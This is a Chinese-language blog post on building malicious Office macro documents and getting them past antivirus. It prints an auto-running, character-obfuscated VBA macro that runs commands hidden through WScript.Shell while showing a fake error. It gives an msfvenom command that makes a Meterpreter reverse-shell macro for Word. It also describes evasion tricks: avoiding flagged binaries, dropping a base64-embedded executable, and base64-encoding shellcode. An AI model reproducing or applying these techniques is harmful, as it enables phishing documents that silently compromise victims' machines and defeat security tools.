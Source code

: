 ```yaml
---
layout: post
title:  "恶意宏文档与免杀"
date:   2019-12-3 12:48:05 +0800
categories: apt
---
```

# 生成执行cmd的宏

项目地址 https://github.com/metac0rtex/Office-Macro-Generator

生成示例:

```vb
Public Sub AutoOpen()
  Dim cmd As String
  BxJnb = ChrW(99) & ChrW(115) & ChrW(99) & ChrW(114) & ChrW(105) & ChrW(112) & ChrW(116) & ChrW(32) & ChrW(68) & ChrW(58)
  SAnJV = ChrW(92) & ChrW(116) & ChrW(101) & ChrW(115) & ChrW(116) & ChrW(49) & ChrW(49) & ChrW(49) & ChrW(46) & ChrW(118)
  JKkJK = ChrW(98) & ChrW(115)
  cmd = BxJnb & SAnJV & JKkJK
  Dim Obj as Object
  Set Obj = CreateObject("WScript.Shell")
  Obj.Run cmd, 0
  MsgBox ("Required rescource could not be allocated")
End Sub
  cmd = cmd & "cscript D:\test111.vbs"
```

主要就是使用ChrW()拼接成cmd，然后通过调用WScript.Shell执行命令

类似项目：

https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator 

https://github.com/infosecn1nja/MaliciousMacroMSBuild

# 使用msf生成宏

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port -f vba -o try.vba
```

使用msf生成vba代码，放入word中即可。

msf生成的宏使用shellcode动态加载技术，运行时在内存中注入shellcode并执行

# 免杀

灵活运用base64就可以达到免杀的效果，此处只讲解原理并提供思路。

## cmd宏的免杀

执行cmd本身不会引起杀软的注意，但是当进行敏感操作时杀软就会警告（如调用powershell、cscript、wscript、bitsadmin、certutil等），因此执行命令时应该避开调用这些程序。

以火绒为例:

![火绒](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/20191203141834.png)

思路：

将免杀的exe进行base64编码写入代码中，当宏执行时释放exe并运行。

## 基于动态加载shellcode的宏的免杀

最开始尝试直接使用veil混淆过的shellcode进行免杀，但是并没有达到效果。

https://payloads.online/archivers/2019-05-16/1 倾旋在博客中提过将shellcode通过自增等操作进行混淆。

根据这个思路，我们可以将shellcode进行base64编码，运行的时候再将编码后的shellcode还原。

## 思路拓展

base64编码本质上是一种加密过程，将payload视为明文，通过编码的得到密文，在程序运行时再讲密文还原为明文，以此来绕过杀软的静态检测。如果可以自己实现一种加密方式，就可以达到很好的免杀效果。